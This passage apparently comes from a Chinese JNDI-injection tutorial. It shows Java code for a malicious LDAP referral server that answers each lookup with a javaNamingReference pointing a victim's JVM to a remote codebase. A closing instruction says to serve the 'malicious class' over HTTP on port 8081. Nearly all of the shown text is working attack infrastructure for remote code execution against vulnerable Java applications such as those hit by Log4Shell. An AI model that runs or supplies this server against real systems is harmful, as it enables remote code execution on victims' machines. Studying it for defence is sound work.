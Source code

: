 ```java
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

运行之后在恶意类所在目录上开一个8081端口的http.server即可
